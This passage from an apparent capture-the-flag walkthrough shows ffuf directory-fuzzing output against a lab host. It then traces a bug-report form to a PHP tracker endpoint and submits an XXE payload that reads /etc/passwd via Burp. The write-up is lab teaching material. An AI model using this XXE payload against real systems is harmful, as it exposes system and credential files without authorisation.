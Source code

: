    ```
   :: Method           : GET
   :: URL              : http://10.10.11.100/FUZZ
   :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
   :: Extensions       : .php
   :: Follow redirects : false
   :: Calibration      : false
   :: Timeout          : 10
   :: Threads          : 40
   :: Matcher          : Response status: 200,204,301,302,307,401,403,405
   ________________________________________________

   .hta                    [Status: 403, Size: 277, Words: 20, Lines: 10]
   .htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
   .hta.php                [Status: 403, Size: 277, Words: 20, Lines: 10]
   .htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
   .htaccess.php           [Status: 403, Size: 277, Words: 20, Lines: 10]
   .htpasswd.php           [Status: 403, Size: 277, Words: 20, Lines: 10]
   assets                  [Status: 301, Size: 313, Words: 20, Lines: 10]
   css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
   db.php                  [Status: 200, Size: 0, Words: 1, Lines: 1]
   index.php               [Status: 200, Size: 25169, Words: 10028, Lines: 389]
   index.php               [Status: 200, Size: 25169, Words: 10028, Lines: 389]
   js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
   portal.php              [Status: 200, Size: 125, Words: 11, Lines: 6]
   resources               [Status: 301, Size: 316, Words: 20, Lines: 10]
   server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
   :: Progress: [9404/9404] :: Job [1/1] :: 1238 req/sec :: Duration: [0:00:13] :: Errors: 0 ::
   ```

5. Not a lot of good with DIRB. Let's inspect the pages of the website using the browser's developer tools
6. The portal page contains a link that takes you to a CVE form. In this page, there is a custom JS file.
7. Looking at the custom JS file, it looks like it takes your to a URL 'tracker_diRbPr00f314.php'. Traversing this php page, it looks like it returns the value which you've input from the submission form. Might be vulneralbe with XXE (XML External Entity)
8. Let's test using burp by submitting something from the form.

## Grab Username and Password

9. Inspection the datagram from the the request... the decoded base64 seems like its ripe for XXE. We will try to use at this script.
   ```
   <?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE root [<!ENTITY schoon SYSTEM 'file:///etc/passwd'>]>
   	<bugreport>
   	<title>&schoon;</title>
   	<cwe></cwe>
   	<cvss></cvss>
   	<reward></reward>
   	</bugreport>
   ```
10. But this script will be encoded into base64 first then passed on the repeater of burp
11. We have it! The response from burp is the content of the /etc/passwd file
